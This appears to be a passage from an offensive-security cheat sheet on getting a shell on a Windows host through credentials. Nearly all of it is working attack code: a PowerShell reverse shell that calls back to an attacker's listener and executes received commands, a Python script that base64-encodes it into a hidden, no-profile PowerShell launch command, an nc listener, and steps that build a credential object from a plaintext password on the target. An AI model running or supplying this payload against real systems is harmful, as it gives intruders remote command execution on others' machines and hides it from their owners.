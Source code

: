 If a user isn't in "Remote Users" group, it may be inaccessible with options like rdp, winrm or psexec.

Python script to encode powershell command:
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("$(LHOST)",$(LPORT));$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
```bash
python3 encode.py
```
```bash
nc -lvnp $(LPORT)
```
On the target machine, run the following:
```powershell
$username = '$(USERNAME)';
```
```powershell
$password = '$(PASSWORD)';
```
```powershell
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
```
```powershell
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
